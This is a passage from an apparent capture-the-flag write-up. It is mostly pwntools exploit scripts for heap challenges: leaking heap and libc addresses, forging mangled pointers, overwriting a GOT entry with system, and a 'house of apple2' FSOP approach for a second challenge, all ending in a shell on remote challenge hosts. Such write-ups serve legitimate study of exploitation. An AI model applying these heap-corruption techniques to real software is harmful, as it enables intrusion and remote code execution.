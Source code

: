 ```py
p.recvuntil("* [DEBUG] ")
heap_leak = int(p.recvuntil(";")[:-1], 16)
log.info("heap_leak: " + hex(heap_leak))
p.recvuntil("corrupt = ")
corrupt = int(p.recvuntil("\n")[:-1], 16)
log.info("corrupt: " + hex(corrupt))
head_ptr = 0x4040D8
got_ptr = 0x00404010
read_fsword = corrupt ^ ror_8(0x6161616161616161, 17)
log.info("read_fsword: " + hex(read_fsword))
# try leak libc
add(b"XDEBUG: "+b"a"*0x30 + p64(rol_8(read_fsword^(0x4040b0), 17))+b"\n")
# delete(3)
# gdb.attach(p)
# pause()
print_linkedlist()
p.recvuntil("[+] thing 3:")
p.recvuntil("- ")
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("libc_leak: " + hex(libc_leak))
# 0x00007f7237e205c0 - 0x7f7237c1c000 
libc_base = libc_leak - 0x2045c0
log.info("libc_base: " + hex(libc_base))
strchr_got = 0x0404038
add(b"XDEBUG: "+b"b"*0x30 + p64(rol_8(read_fsword^(strchr_got), 17)))
system = libc_base + libc.symbols["system"]
delete(5)
add(p64(system)[:6])
add(b"/bin/sh\x00")
# print_linkedlist()
# gdb.attach(p)
# pause()
p.interactive()
```
This is a fairly easy challenge, but my ida got confused when determining the address of the read on stack, so I spent a lot of time just to figure out how to cover the next pointer before realizing that I can overwrite it directly.    

## sp33d3
an easy problem, the heap addresses are given, and we have arbitrary address read and write.   
Thus, the solution is to leak libc base address through unsorted bin, overwrite IO_list_all to a heap address, construct a fake IO_file on this address with the tactic of [house of apple2](https://bbs.kanxue.com/thread-273832.htm) and get the shell!!

```py
from pwn import *
# p = process("./sp33d3_patched")
p = remote("sp33d.play.hfsc.tf",16522)
context(log_level = "debug", os = "linux", arch = "amd64")
libc = ELF("./libc.so.6")
def add(size):
    p.recvuntil("> ")
    p.sendline("1")
    p.recvuntil("size: ")
    p.sendline(str(size))

def delete(addr):
    p.recvuntil("> ")
    p.sendline("2")
    p.recvuntil("addr: ")
    p.sendline(hex(addr))

def show(addr, cnt):
```